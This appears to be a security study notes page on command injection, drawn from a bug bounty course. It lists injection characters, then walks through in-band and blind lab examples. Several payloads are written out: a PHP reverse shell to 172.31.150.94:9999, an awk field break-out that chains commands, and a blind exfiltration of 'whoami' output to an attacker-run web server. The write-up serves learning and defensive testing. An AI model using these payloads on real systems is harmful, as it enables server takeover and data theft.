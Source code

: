 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# CI

{% hint style="info" %}
Command Injection is a vulnerability where an attacker can execute arbitrary commands on the server by injecting malicious input into a command-line interface.
{% endhint %}

{% hint style="danger" %}
This can lead to unauthorized access, data modification, or full control of the server, as attackers can execute system commands or scripts.
{% endhint %}

{% hint style="success" %}
Validate and sanitize all user inputs, use parameterized system calls, and avoid directly passing user input to system commands.
{% endhint %}

## Injection Characters

<table><thead><tr><th width="166">Character</th><th width="149">URL-Encoded</th><th>Executed Command</th></tr></thead><tbody><tr><td><code>;</code></td><td><code>%3b</code></td><td>Both</td></tr><tr><td><code>\n</code></td><td><code>%0a</code></td><td>Both</td></tr><tr><td><code>&#x26;</code></td><td><code>%26</code></td><td>Both (second output generally shown first)</td></tr><tr><td><code>|</code></td><td><code>%7c</code></td><td>Both (only second output is shown)</td></tr><tr><td><code>&#x26;&#x26;</code></td><td><code>%26%26</code></td><td>Both (only if first succeeds)</td></tr><tr><td><code>||</code></td><td><code>%7c%7c</code></td><td>Second (only if first fails)</td></tr><tr><td><code>``</code></td><td><code>%60%60</code></td><td>Both (Linux-only)</td></tr><tr><td><code>$()</code></td><td><code>%24%28%29</code></td><td>Both (Linux-only)</td></tr><tr><td><code>#</code></td><td><code>%23</code></td><td>Both</td></tr></tbody></table>

## Examples

### In Band

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The app takes our input and passes it into a `curl` command which is then `grep`ped (Figure 1.1). We can start simple by just appending a command using `;`, but this gives no output (Figure 1.2). Next, we can try commenting out the `grep` part by using `#` (Figure 1.3).

<figure><img src="../../../../.gitbook/assets/web_ci_basic_1.png" alt=""><figcaption><p>Figure 1: A basic example of a command injection attack.</p></figcaption></figure>

We can also try to achieve RCE[^1] by first checking what technology is used on the app and then getting a payload from a repository such as [PayloadAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php) (Figure 2).

{% code overflow="wrap" %}
```bash
;php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");'#
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_ci_basic_2.png" alt=""><figcaption><p>Figure 2: Achieving RCE.</p></figcaption></figure>

### In Band (2)

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The app we need to test tracks the fleet vehicle's coordinates and calculates the distance between its current position and its destination (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_ci_chall_lab_1.png" alt=""><figcaption><p>Figure 3: Undestanding the application's functionality.</p></figcaption></figure>

We have two fields that are directly inputted within the executed command. We can start by trying to manipulate the second field first (Figure 4).

```bash
# original command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}'

# our goal command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}';whoami;#

# the payload
222)^2))}';whoami;#

# the final command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}';whoami;#)^2))}'
```

<figure><img src="../../../../.gitbook/assets/web_ci_chall_lab_2.png" alt=""><figcaption><p>Figure 4: Executing a successful CI attack.</p></figcaption></figure>

We can achieve RCE with the same logic using the [previously used payload](./#basic) (Figure 5).

{% code overflow="wrap" %}
```bash
222)^2))}';php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");';#
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_ci_chall_lab_3.png" alt=""><figcaption><p>Figure 5: Achieving RCE via a CI vulnerability.</p></figcaption></figure>

### Blind

{% hint style="success" %}
**Blind Command Injection** occurs when the attacker does not see the output of the injected commands directly. Instead, they infer the success or failure of the commands through side effects or indirect responses.
{% endhint %}

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time we have the same Network Checker app, but the [previous attack](./#basic) does not work (Figure 6.1). Either something gets filtered, which we can check (Figure 6.2 & 6.3), or we the command is executed but we don't get any output on the front-end.

<figure><img src="../../../../.gitbook/assets/web_ci_blind_1.png" alt=""><figcaption><p>Figure 6: An unsuccessful CI attack.</p></figcaption></figure>

We can try a payload that alters the app's behaviour (similar to [Blind SQLi](../sqli/blind.md)) and see if this works. This can be tested with Burp Suite's Repeater, as it shows the response time in the bottom right corner (Figure 7).

```bash
localhost?q=`sleep 5`
```

<figure><img src="../../../../.gitbook/assets/web_ci_blind_2.png" alt=""><figcaption><p>Figure 7: Confirming a blind CI vulnerability.</p></figcaption></figure>

Next, we can achieve RCE[^2] by spawning up a web server and passing the desired command as a parameter (Figure 8).

```bash
http://172.31.150.94:9999/?q=`whoami`
```

<figure><img src="../../../../.gitbook/assets/web_ci_blind_3.png" alt=""><figcaption><p>Figure 8: Achieving RCE via a blind CI vulnerability.</p></figcaption></figure>

[^1]: Remote Code Execution

[^2]: Remote Code Execution
